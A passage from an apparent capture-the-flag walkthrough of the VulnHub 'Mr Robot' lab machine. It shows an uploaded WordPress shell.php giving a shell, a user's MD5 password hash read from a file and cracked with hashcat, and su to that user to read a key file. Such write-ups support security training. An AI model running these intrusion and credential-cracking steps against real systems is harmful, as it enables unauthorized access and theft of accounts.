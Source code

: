 When we visite the URL [http://192.168.1.25/wp-content/uploads/2021/01/shell.php](http://192.168.1.25/wp-content/uploads/2021/01/shell.php), we have a shell:

![reverse-shell](/assets/img/vulnhub/linux/mr-robot/reverse-shell.png)


### User (`robot`)

```console
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2021/01$ 
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

#### Cracking MD5 using hashcat

```bash
$ hashcat -m 0 files/password.raw-md5 /usr/share/wordlists/rockyou.txt
#...
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
#...
```

Now that we have his password, we can get `key-2-of-3.txt`'s content:

```console
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```
